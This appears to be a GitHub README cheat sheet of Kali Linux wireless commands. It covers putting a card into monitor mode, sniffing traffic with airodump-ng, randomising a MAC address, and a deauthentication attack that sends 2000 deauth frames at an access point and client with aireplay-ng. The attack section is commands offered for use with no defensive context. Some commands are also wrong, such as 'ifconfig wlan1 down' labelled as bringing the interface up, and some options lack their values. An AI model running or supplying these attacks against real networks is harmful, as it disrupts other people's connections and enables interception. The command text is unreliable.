 # Kali-Linux-Commands
Enabling Monitor Mode

iwconfig : Show all network devices
Ifconfig wlan1 up : To make sure network device is up and running
airmon-ng : Show all network cards
airmon-ng check kill : To prevent from disabling monitor mode
airmon-ng start wlan1 : Start monitor mode

Reset to normal mode

airmon-ng stop wlan1mon : Stop monitor moder
service network-manager start : Restart network settings

Sniffing Packets using airodump-ng

airodump-ng wlan1mon : Start sniffing
PWR = Signal Strength should be above than -70

airodump-ng --bssid wlan1mon :  Targeted sniffing


macchanger

ifconfig wlan1 down : Bring down the interface
macchanger -r wlan1 : Change mac address to random
ifconfig wlan1 down : Bring the interface up

Deauth Attacks

airodump-ng --channel --bssid  wlan1mon
aireplay-ng --deauth 2000 -a {MAC of Access Point} {MAC of  Client} wlan1mon







